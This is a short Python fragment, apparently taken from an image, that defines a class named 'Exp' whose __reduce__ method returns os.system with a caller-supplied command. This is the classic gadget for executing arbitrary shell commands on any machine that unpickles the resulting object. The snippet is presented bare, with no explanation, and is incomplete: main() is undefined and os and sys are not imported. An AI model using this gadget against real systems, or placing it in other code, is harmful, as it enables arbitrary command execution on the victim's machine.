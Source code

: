 ```python


class Exp:

    def __init__(self, cmd):
        self.cmd = cmd

    def __reduce__(self):
        return os.system, (self.cmd, )


if __name__ == '__main__':
    main(sys.argv[1])
```
